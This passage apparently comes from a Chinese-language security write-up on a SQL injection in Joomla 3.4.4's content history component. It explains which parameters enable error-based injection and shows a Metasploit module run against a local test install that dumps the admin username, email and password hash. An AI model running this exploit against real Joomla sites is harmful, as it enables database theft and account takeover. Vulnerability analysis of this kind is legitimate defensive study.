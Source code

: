 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序执行到`populateState()`方法接收参数时确保`item_id`、`type_id`、`list[ordering]`要同时传递，就可以构造payload进行报错注入获得数据，无需获取表前缀，%23_即为joomla表前缀，joomla会自动将#_转换为表前缀，因为joomla的前缀为随机字符串，也可以通过报错获得这个随机字符串。

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/54gtersdf.png">

>Msf也已经更新了此漏洞的Exploit：

	msf > use auxiliary/gather/joomla_contenthistory_sqli
	msf auxiliary(joomla_contenthistory_sqli) > show options
	
	Module options (auxiliary/gather/joomla_contenthistory_sqli):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format 	type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	TARGETURI  /                yes       The relative URI of the Joomla 	instance
	VHOST                       no        HTTP server virtual host

	msf auxiliary(joomla_contenthistory_sqli) > set RHOST 127.0.0.1
	RHOST => 127.0.0.1
	msf auxiliary(joomla_contenthistory_sqli) > set TARGETURI /joomla_3.4.4
	TARGETURI => /joomla_3.4.4
	msf auxiliary(joomla_contenthistory_sqli) > show options
		
	Module options (auxiliary/gather/joomla_contenthistory_sqli):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format 	type:host:port[,type:host:port][...]
	RHOST      127.0.0.1        yes       The target address
	RPORT      80               yes       The target port
	TARGETURI  /joomla_3.4.4    yes       The relative URI of the Joomla 	instance
	VHOST                       no        HTTP server virtual host
	
	msf auxiliary(joomla_contenthistory_sqli) > run
	
	[+] Saved file to: /Users/CongRong/.msf4/loot/20151026230744_default_127.0.0.1_joomla.users_471318.txt
	[+] Saved file to: /Users/CongRong/.msf4/loot/20151026230917_default_127.0.0.1_joomla.users_140130.txt
	[*] Auxiliary module execution completed
	msf auxiliary(joomla_contenthistory_sqli) > cat .msf4/loot/20151026230744_default_127.0.0.1_joomla.users_471318.txt
	[*] exec: cat .msf4/loot/20151026230744_default_127.0.0.1_joomla.users_471318.txt
	[{"activation":"","block":"","email":"admin@qq.com","id":"1","lastResetTime":"","lastvisitDate":"","name":"","otep":"","otpKey":"","params":"","password":"d1a1976e385ae56e05524b9517111c75e47c1d23079229c867a7ecc5cd76e8a3","registerDate":"","requireReset":"","resetCount":"","sendEmail":"","username":"admin"}]